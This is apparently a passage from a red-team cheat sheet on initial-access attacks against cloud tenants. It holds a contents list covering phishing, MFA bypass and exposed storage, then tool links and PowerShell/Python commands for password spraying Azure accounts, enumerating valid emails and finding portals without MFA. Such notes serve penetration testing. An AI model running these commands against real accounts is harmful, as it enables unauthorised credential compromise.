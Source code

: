 # Initial access attacks

* [Password and crentials attacks](#Password--and-credentials-attacks)
  * [Password spraying](#Password-spraying)
  * [Bypass MFA](#Bypass-MFA)
  * [Key disclosure in public repositories](#Key-disclosure-in-public-repositories)
  * [Reused access](#Reused-access)
  * [AWS Instance Metadata](#AWS-Instance-Metadata)
* [Web-Application Vulnerabilities](#Web-application-vulnerabilities)
  * [Insecure file upload](#Insecure-file-upload)
  * [Server Side Template Injection](#Server-Side-Template-Injection)
  * [OS Command injection](#OS-Command-injection)
* [Phishing](#Phishing)
  * [Teams](#Teams)
  * [Evilginx2](#Evilginx2)
  * [Illicit Consent Grant](#Illicit-Consent-Grant)
  * [Email Spoofing](#Email-spoofing)
  * [Device code auth](#Device-code-auth)
  * [Google workspace calendar event injection](#Google-workspace-calendar-event-injection)
* [Public storage](#public-storage)
  * [Azure storage accounts](#Azure-storage-accounts)
  * [AWS blobs](#AWS-blobs)
  * [Google Storage Buckets](#Google-Storage-Buckets)
* [Misc](#misc)

## Password and credentials attacks
### Password spraying
- https://github.com/dafthack/MSOLSpray
- https://github.com/ustayready/fireprox
- Also possible with https://github.com/0xZDH/o365spray
```
Import-Module .\MSOLSpray.ps1
Invoke-MSOLSpray -UserList validemails.txt -Password <PASSWORD> -Verbose
```

#### Find valid emails Azure
- Explained in Recon or use the command below
```
C:\Python27\python.exe o365creeper.py -f emails.txt -o validemails.txt
```

#### Trevorspray
- https://github.com/blacklanternsecurity/TREVORspray

### Bypass mfa
#### MFAsweep
- Checks for portals which doesn't enforce mfa
- https://github.com/dafthack/MFASweep
```
Invoke-MFASweep -Username <EMAIL> -Password <PASSWORD>
```
